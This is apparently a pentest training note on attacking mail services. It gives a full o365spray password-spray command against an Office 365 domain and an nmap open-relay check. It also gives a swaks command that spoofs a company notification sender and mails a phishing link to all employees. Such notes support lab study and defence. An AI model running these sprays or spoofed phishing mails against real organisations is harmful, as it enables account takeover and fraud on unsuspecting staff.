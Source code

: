 If cloud services support SMTP, POP3, or IMAP4 protocols, we may be able to attempt to perform password spray using tools like `Hydra`, but these tools are usually blocked. We can instead try to use custom tools such as [o365spray](https://github.com/0xZDH/o365spray) or [MailSniper](https://github.com/dafthack/MailSniper) for Microsoft Office 365 or [CredKing](https://github.com/ustayready/CredKing) for Gmail or Okta. Keep in mind that these tools need to be up-to-date because if the service provider changes something&#x20;

#### <mark style="color:green;">**O365 Spray - Password Spraying**</mark>

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]$ python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```
{% endcode %}

***

### <mark style="color:blue;">Protocol Specifics Attacks</mark>

An open relay is a Simple Mail Transfer Protocol (`SMTP`) server, which is improperly configured and allows an unauthenticated email relay. Messaging servers that are accidentally or intentionally configured as open relays allow mail from any source to be transparently re-routed through the open relay server. This behavior masks the source of the messages and makes it look like the mail originated from the open relay server.

#### <mark style="color:green;">**Open Relay**</mark>

From an attacker's standpoint, we can abuse this for phishing by sending emails as non-existing users or spoofing someone else's email. For example, imagine we are targeting an enterprise with an open relay mail server, and we identify they use a specific email address to send notifications to their employees. We can send a similar email using the same address and add our phishing link with this information. With the `nmap smtp-open-relay` script, we can identify if an SMTP port allows an open relay.

```shell-session
mrroboteLiot@htb[/htb]# nmap -p25 -Pn --script smtp-open-relay 10.10.11.213

Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-28 23:59 EDT
Nmap scan report for 10.10.11.213
Host is up (0.28s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (14/16 tests)
```

Next, we can use any mail client to connect to the mail server and send our email.

{% code overflow="wrap" fullWidth="true" %}
```shell-session
mrroboteLiot@htb[/htb]# swaks --from notifications@inlanefreight.com --to employees@inlanefreight.com --header 'Subject: Company Notification' --body 'Hi All, we want to hear from you! Please complete the following survey. http://mycustomphishinglink.com/' --server 10.10.11.213
```
{% endcode %}
